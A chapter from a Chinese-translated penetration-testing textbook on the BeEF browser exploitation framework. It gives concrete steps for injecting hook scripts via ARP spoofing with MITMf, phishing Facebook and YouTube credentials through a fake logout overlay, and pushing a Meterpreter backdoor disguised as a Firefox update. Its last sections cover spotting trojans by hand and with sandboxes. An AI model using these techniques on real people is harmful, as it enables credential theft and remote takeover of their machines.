

# 第十四章：使用 BeEF 进行攻击和检测特洛伊木马

在本章中，我们将学习 BeEF 工具以及如何使用**中间人框架**（**MITMf**）将其连接。接着，我们将学习如何通过将用户重定向到一个虚假网站来窃取用户名和密码，在那里我们将捕获他们的所有凭证。然后，我们将使用 BeEF 获得 Meterpreter 部分的访问权限。最后，我们将学习如何通过手动方式和使用沙箱检测特洛伊木马。

在本章中，我们将涵盖以下主题：

+   BeEF 工具

+   BeEF – 使用 MITMf 进行连接

+   BeEF – 基本命令

+   BeEF – 精美盗窃

+   BeEF – Meterpreter 1

+   手动检测特洛伊木马

+   使用沙箱检测特洛伊木马

# BeEF 工具

在本节及接下来的章节中，我们将了解一个叫做 BeEF 的工具。**浏览器利用框架**（**BeEF**）允许我们对连接的目标执行一系列命令和攻击。一个被连接的目标基本上是指执行了由 BeEF 提供的 URL 或 JavaScript 代码的目标。一旦目标被连接，我们就能执行 BeEF 允许的所有命令。

我们首先要了解的是 BeEF 的主界面，如何运行它，以及一种非常简单的方式将目标连接到 BeEF。要运行 BeEF，我们只需点击桌面上的 BeEF 图标。它将自动运行`http://127.0.0.1:3000/ui/panel` URL，其中包含工具的浏览器界面或网页界面。它会要求输入用户名和密码。用户名是`beef`，密码也是`beef`。登录后，在左侧，我们将看到我们可以访问的浏览器，在“已连接浏览器”面板中：


在线浏览器是我们当前能够访问的浏览器，离线浏览器是我们曾经访问过的浏览器。目前，我们无法对这些浏览器执行任何命令；我们曾经可以访问这些浏览器，但现在不能对它们做任何操作。

我们感兴趣的是在线浏览器。有多种方法可以将浏览器或目标连接到 BeEF。如果我们回到终端窗口，我们可以看到它告诉我们需要在目标浏览器上执行的脚本 URL，以便将其连接到 BeEF：


如果我们能找到或想到一种方法让前面提到的 URL 在目标计算机上执行，那么该目标将会被连接到 BeEF，我们就能够在该计算机上执行各种命令。

我们可以使用我们已经学过的方法，利用 DNS 欺骗来伪造任何页面请求，或伪造包含钩子的页面，或者我们可以进行 ARP 欺骗，将钩子 URL 注入到目标浏览的任何页面中。我们还可以使用 XSS 漏洞进行攻击，我们将在第二十一章中讨论 *跨站脚本漏洞*。或者我们可以创建一个页面，并通过社交工程诱使目标打开该页面，成为钩子页面。我们将创建一个钩子页面，看看目标是如何被钩住的。我们将创建的钩子页面可以与社交工程和 DNS 欺骗一起使用。

我们要创建的页面非常简单。我们可以使用任何页面，并将钩子 URL 放在页面的末尾。我们可以访问任何网站，复制该网站的源代码，然后将钩子 URL 放在其下方。我们将做得更简单一些；我们只需要将其放入 `/var/www/html` 目录——这是 Web 服务器文件存储的位置。我们将修改 `index.html` 文件，删除其中所有内容，然后放入工具给我们的钩子 URL。我们还需要修改 IP 地址，填写攻击机器的 IP 地址。也就是 Kali 机器的 IP 地址和我们的 IP 地址 `10.0.2.15`：


现在我们可以开始了，任何访问 `index.html` 页面的人都会被钩住，连接到 BeEF 浏览器或 BeEF 框架。我们还需要启动 Web 服务器 Apache。启动命令是运行 `service apache2 start`。现在 Apache 服务器应该已经运行了。我们可以通过社交工程或 DNS 欺骗引导目标访问 `index.html` 页面。我们还可以将相同的页面上传到远程服务器，并访问它，或者我们可以想到任何其他方法。

现在，我们将通过 Windows 浏览器访问 `10.0.2.15` 的 IP 地址，并按 *Enter* 键——应该会打开一个空白页面：


我们的页面实际上没有显示任何内容，但如果我们进入 BeEF 浏览器，我们会看到在线浏览器中有一个新的 IP 地址，如果点击该 IP，我们将看到目标计算机的一些基本信息：


我们可以看到目标计算机使用的是 Mozilla/5.0，Windows NT 10.0 操作系统，浏览器版本是 Firefox/61.0。我们还可以看到已安装的浏览器插件。如果我们想要对目标计算机进行缓冲区溢出攻击，这些插件非常有用。我们还可以看到我们通过钩子获取到的页面 URL，页面底部有 Cookies 信息，以及日期和窗口大小的详细信息。

"命令" 标签是我们最常使用的标签。以下截图展示了大量的命令和对目标计算机的攻击——我们稍后会处理这些：


Rider 标签页将允许我们查看和创建 HTTP 请求：


XssRays 标签页会显示目标网页是否存在 XSS 漏洞：


Ipec 标签页是一个 BeEF 命令提示符，它允许我们从命令提示符运行 BeEF 命令，而不需要使用界面：


网络标签页会给我们展示当前网络概况：


完成所有操作后，我们可以点击注销链接，退出工具。

这只是 BeEF 的基本概览，包括主要命令和界面，以及一种基本的钩取目标方法。再次说明，我们可以通过社会工程学手段让别人访问钩子页面，比如使用 URL 缩短服务让链接更短、更美观，或者通过 DNS 欺骗让目标访问我们自己的网页，从而使 BeEF 框架生效。

# BeEF – 使用 MITMf 进行钩取

另一种将目标钩取到 BeEF 的方法是使用 MITMf 注入 BeEF 提供的 JavaScript。因此，如果目标和攻击者在同一网络中，并且我们能够成为中间人（无论是通过伪造接入点，还是通过物理连接到目标计算机，无论我们通过什么方式成为中间人），我们就可以将钩子代码注入目标浏览器中，让目标在浏览的页面（HTTP 页面）中直接被钩取到 BeEF，无需点击任何东西，也不需要我们发送任何内容。我们将使用之前页面中的相同链接，即`http://10.0.2.15:3000/hook.js`，或者脚本。我们将复制它，然后粘贴到`--inject`插件中，使用 MITMf。命令如下：

```
mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.5 -i eth0 --inject --js-url http://10.0.2.15:3000/hook.js
```

我们一直使用的命令是`mitmf`。我们正在进行 ARP 欺骗，设置网关为`10.0.2.1`，目标为`10.0.2.5`，接口为`eth0`，并且使用`--inject`插件和`--js-url`选项，指定一个 JavaScript 的 URL，即钩子存储的位置，在我们的例子中，它位于`http://10.0.2.15:3000/hook.js`。启动命令后，正常浏览网页，或者直接访问 BBC 网站。现在，如果我们返回到 BeEF 界面，可以看到我们已经有了一个目标，而这个目标是一台 Windows 设备：


代码已自动注入到 BBC 网站中，因此用户无需访问任何内容或点击 URL。代码将被注入到他们访问的任何网页中，他们将被连接。用户只要访问任何网站，就会被连接。如果我们查看页面源代码，并查看底部，我们将看到我们在页面源代码底部有挂钩脚本，这就是为什么它被执行：


这就是为什么我们实际上可以将脚本放在任何页面下的原因。如果我们制作假页面，我们只需复制任何页面的源代码并将脚本放在底部。然后，它将在目标页面上执行，我们将能够将我们的目标连接到浏览器。

# BeEF – 基本命令

现在我们的浏览器或目标已经连接，我们可以转到命令选项卡并开始在目标上执行命令：


我们可以使用搜索 选项来查找特定命令，或者我们可以使用类别并查找适合我们想要在目标计算机上执行的命令。一些命令是信息收集命令，一些是社会工程，一些甚至会让我们完全控制目标计算机。有很多命令，所以我们不可能涵盖所有命令，但我们将查看一些最重要的命令，以便知道如何进行实验和运行它们。

如果我们点击浏览器 (53) 选项，我们将看到与浏览器内可以执行的攻击相关的命令：


我们可以看到一些攻击，这些攻击可以让我们获得屏幕截图，我们可以尝试打开网络摄像头并查看其是否工作，并在目标上打开网络摄像头。如果我们点击 Exploits (78)，我们将看到一些可以运行的漏洞利用：


我们只需点击我们想要运行的模块，然后点击 执行 按钮：


有一些模块需要设置一些选项，我们也将给出这些模块的示例。

在社会工程 (21) 选项中，我们可以显示虚假更新、虚假通知栏等：


让我们举一个非常简单的命令的例子。我们将运行一个警报以显示一个警报框。所以，我们只是使用 搜索 进行过滤，我们可以看到它只会创建一个警报对话框，并且会显示 `BeEF Alert Dialog`：


我们可以修改警报和类型为任何我们想要的内容，例如，将警报文本更改为 `test`，然后，当我们点击 执行 按钮时，在目标浏览器中，我们将看到一个消息，显示 test 已被注入到目标浏览器中，如下图所示：


另一个有趣的功能是原始 JavaScript。它允许我们执行任何我们想要的 JavaScript。所以，我们可以再次搜索 Google 寻找有用的 JavaScript 代码，比如键盘记录器，或者如果我们懂 JavaScript，也可以自己编写脚本，无论我们写什么，它都会在目标上执行。再一次，我们将插入一个警告，它将返回 `BeEF Raw JavaScript`，然后点击执行按钮：


它会弹出一个对话框，显示 BeEF 原始 JavaScript，就像我们在前面的示例中看到的一样：


现在，让我们看看是否可以获取目标计算机的截图。为此，我们将使用一个名为 Spyder Eye 的插件。所以，再次点击插件，点击执行，稍等片刻，然后我们将点击“模块结果历史”标签页中的命令 4：


前面的图片展示了目标用户所看到的截图。

另一个非常好的插件是重定向浏览器插件。它允许我们将浏览器重定向到任何我们想要的网页。这非常有用，因为我们可以用它来引导目标用户，告诉他们需要下载更新，而实际上我们并不会提供更新，而是给他们一个后门。我们可以把他们重定向到一个假的 Facebook 登录页面——我们可以通过重定向浏览器插件做任何想做的事。我们可以设置希望目标被重定向到的网站。在这个例子中，我们将把他们重定向到 [`beefproject.com`](http://beefproject.com)，点击执行后，目标将被重定向到 [`beefproject.com`](http://beefproject.com) 或任何在重定向 URL 文本框中提到的特定链接：


这些是我们可以使用的一些基本模块。

# BeEF – 精美盗窃

现在，让我们来看看一个社交工程插件，它可以帮助我们窃取账户的用户名和密码。基本上，它会让屏幕变暗，并告诉目标用户他们已从会话中退出，因此需要重新登录以进行身份验证。这样我们就能绕过 HTTPS、HSTS 和目标账户页面所使用的所有安全措施。例如，如果我们试图获取 Facebook 的用户名和密码，我们将能够绕过 Facebook 使用的所有安全措施，因为我们只是在展示一个假的 Facebook 页面，因此用户实际上并未与 Facebook 进行联系。我们点击“精美盗窃”插件，它将打开标签页：


在前面的截图中，我们可以点击我们想要劫持的账户。假设我们选择 Facebook。我们可以选择背景光的颜色，这里我们就留作灰色，然后点击执行。

当我们转到目标时，我们可以看到他们被告知他们已经注销了会话，因此他们需要使用用户名和密码登录：


输入用户名为`zaid`，然后我们将密码输入为`12345`，然后点击登录。

如果我们回到终端，我们可以看到我们的用户名是 zaid，密码是 12345：


我们可以利用这一点来劫持多个账户。让我们看另一个例子。如果我们选择 YouTube，我们执行：



在目标屏幕上，我们看到了 YouTube 的标志，我们可以尝试登录。输入用户名和密码，点击登录，凭证将被捕获：


所以，这是一个非常好的获取账户访问权限的方法，因为即使用户没有打算登录我们试图窃取的账户，我们也会迫使他们输入用户名和密码以重新登录他们的账户，然后我们就能够捕获用户名和密码。

# BeEF – Meterpreter 1

在本节中，我们将看到如何从目标计算机获得完全控制并获得一个 Meterpreter 会话。因此，再次转到命令选项卡，然后选择社会工程。有许多方法可以获得反向 shell。现在，这一切取决于我们想要执行社会工程攻击的方式。我们将使用一个通知栏，伪造通知栏（Firefox）—我们选择 Firefox，因为我们的目标使用 Firefox 浏览器：


基本上，它会显示一个通知栏，告诉用户有一个新的更新或插件需要安装。一旦他们安装了插件，实际上他们会安装一个后门，我们将获得对他们计算机的完全访问权限。我们将通过使用我们在本书中创建并一直使用的相同后门来实现。

我们已经将后门存储在我们的 Web 服务器中的`/var/www/html`目录下，并命名为`update.exe`，但它是相同的后门，我们之前使用过的相同的反向 HTTP Meterpreter。在插件 URL 文本框中提供后门的完整地址，即`http://10.0.2.15/update.exe`，将通知文本更改为`Firefox 的关键更新，点击这里安装`，如下面的屏幕截图所示，然后点击执行按钮：


在目标处，我们可以看到他们收到一条消息，告诉他们有一个 Firefox 的新更新：


一旦目标下载并安装它，木马就会被下载到他们的机器上。一旦他们尝试运行这个木马来安装更新，实际上他们运行的是一个木马，它会给我们完全的计算机访问权限。在运行木马之前，我们需要像之前一样监听端口。打开一个 `msfconsole` 终端并运行 `show options`。使用 Metasploit 的 multi-handler，就像本书中讲过的那样，来监听端口。使用 `meterpreter/reverse/http`，输入我们的 IP 地址和端口。所以，我们只需运行 `exploit`，现在我们就开始监听连接了。接着运行我们刚刚下载的更新。如果我们去目标计算机，我们将看到我们通过 Meterpreter 会话获得了完全控制。

再次说明，这只是获得完全控制目标计算机的一种方式的示例。我们可以通过使用 BeEF 来做很多事，也有很多社交工程攻击可以用来获得目标计算机的完全访问权限。强烈推荐你浏览插件，进行实验，看看可以执行哪些攻击。

# 手动检测木马

到目前为止我们创建的木马非常强大；它们能够绕过杀毒程序——它们运行两段代码，第一段代码在后台运行，执行我们的代码，完成我们想要它做的事情，比如打开一个端口、连接回我们的机器并给我们一个 shell，同时它也运行第二段用户预期的代码，可能是显示一张图片、播放一个 MP3 文件，或者显示一个 PDF 文件。这种功能使得它非常难以被检测出来，所以最好的做法是检查文件的属性，确保它的确是它所宣称的类型。在下面的截图中，我们看到这是一个 Packt 图片，并且它是 `.jpg` 文件，看起来像一张图片，具有图标，如果我们运行它，就会得到一张图片，就像我们在第十三章中看到的那样，*客户端攻击 - 社交工程*：


右键点击它并选择“属性”。当我们进入“属性”时，我们会看到它是一个应用程序，而不是图片：


对于 PDF 和 MP3 也是一样；如果是 MP3，它应该显示为 MP3；如果是 PDF，它应该显示为 PDF；如果是 `.jpg`，它应该显示为 `jpg`。但在这个情况下，它告诉我们这是一个可执行文件。查看详细信息后，我们会发现它是一个应用程序，而不是一张图片——如果它是图片，它会告诉我们它是一张图片：


从这里，我们就能知道自己正被欺骗。我们也可以调整文件名，重命名后我们会看到它其实是一个 `.exe` 文件，而不是 `.jpg`。如果我们将文件名改为 test，我们会看到它的名字已经改成了 test.exe：


现在，让我们假设这个特洛伊木马与一个可执行文件结合在一起。如果我们运行它，我们期望得到一个`.exe`和一个应用程序。假设它与 Download Accelerator Plus 软件结合在一起，而不是与一张图片结合在一起。这个任务会更加困难，因为我们无论如何都期望得到一个应用程序。对于图片和 PDF，Windows 会告诉我们我们正在尝试运行一个可执行文件，但如果我们期望得到一个可执行文件，那么我们无论如何都会运行它，比如使用 DAP。它将播放我们正在寻找的可执行文件，并且该可执行文件将发送一个反向会话到 Kali。

进入一个名为资源监视器的工具，并从该工具中进入网络选项卡。在那里，我们将能够看到我们计算机上所有打开的端口：


我们可以看到我们有端口 8080，并且它连接到`10.0.2.15` IP 地址。显然，端口`8080`并不是很可疑，即使它在端口`80`上，看起来也不可疑，而且，它来自一个名为 browser.exe 的进程，这也不是很可疑。可疑的部分是远程地址；它正在访问`10.0.2.15`，我们不知道那是什么。如果这是一个网站，将 IP 放入浏览器应该会带我们到一个网站或该网站的服务器。在大多数情况下，如果这是一个黑客计算机，它不会带我们到一个网站，然后我们就会知道这个人是一个攻击者。

要验证攻击，我们可以使用一个名为反向 DNS 查找的工具。它给我们一个 IP，并告诉我们这个 IP 属于哪个网站，或者这个 IP 属于哪个域。让我们以 Facebook 为例。假设我们在资源管理器中看到了一个看起来可疑的 IP。我们实际上将通过 ping 获取 Facebook 的正确 IP 地址：


我们看到了`157.240.7.38` IP；有一个连接在端口`80`上连接到这个 IP。复制这个 IP 并使用谷歌搜索`反向 DNS`，打开第一个网站，粘贴 IP，然后点击反向查找。我们可以看到我们在资源中看到的 IP：


如果是用于一个正常的网站，那么就没有什么好担心的；如果看起来可疑，那么我们就会知道这是连接到一个可疑人的。现在，正如我们在上面的截图中看到的，它正在连接到 Facebook，我们正在浏览 Facebook - 这是正常的，我们正在使用 Facebook，所以我们和 Facebook 之间有一个连接。

# 使用沙箱检测特洛伙

现在我们要看另一种发现恶意文件的方法，通过使用沙箱。沙箱基本上是一个执行和分析我们文件的地方。它会检查是否会打开任何端口，是否会修改注册表项——基本上就是查看它是否会做任何可疑的事情。它不是杀毒软件。我们的特洛伊木马可能会通过杀毒程序，我们的特洛伊木马通过了所有的杀毒程序，但沙箱应用程序或沙箱环境会在受控环境中运行它，查看它是否做了任何可疑的事情，并给我们报告。我们可以在线搜索`sandbox`，例如一个叫做 Hybrid Analysis 的网站([`www.hybrid-analysis.com/`](https://www.hybrid-analysis.com/))。

使用该网站非常简单：只需访问网址，选择一个文件并上传即可。我们可以在以下截图中看到报告；分析文件并生成报告可能需要一些时间：


一旦我们获取了报告，我们将看到一些基本信息；我们会看到发现了**恶意指标**。它们被隐藏了，我们必须使用完整版才能看到它们，但我们实际上并不需要看到它们；如果我们阅读整份报告，我们会知道这个文件是恶意的，并且它将在我们的计算机上做一些坏事。

我们可以看到文件抑制了错误框，因此不会显示错误框：


它还会修改注册表，我们可以在以下截图中看到注册表参数：


我们可以看到，在前面的截图中，它正在操作互联网设置和连接。我们还可以看到它正在使用 Windows Sockets 服务，即 WinSock2，所以它试图建立连接。我们还可以看到它正在操作进程的地址：


如果我们向下滚动，我们将看到一个最重要的指标。以下截图中会有更多关于网络分析的信息。它尝试连接到主机地址上的主机端口`8080`：


我们可以访问`10.20.14.203`这个 IP 并进行反向 DNS 查找，以检查该 IP 是否与某个网站相关联。此外，当我们上传有效载荷时，它永远不会在我们的计算机上执行，而是在他们的服务器上以沙箱环境执行。显然，针对我们所看到的方法，我们应该始终在执行时使用 VirtualBox，尤其是在 Windows 系统上。始终在虚拟机上执行，不要在主机上执行。或者我们可以将其上传到沙箱环境，它会为我们进行分析，然后我们可以阅读报告。

# 总结

在本章中，我们研究了一个名为 BeEF 的工具，并通过 MITMf 进行了钩取。然后，通过重定向用户，我们通过告知用户他们已被注销并要求他们重新输入用户名和密码的方式捕获了他们的凭据。最后，我们获得了 Meterpreter 会话，并学习了如何通过手动和使用沙盒来检测木马。

在下一章中，我们将研究如何对外部网络进行攻击。
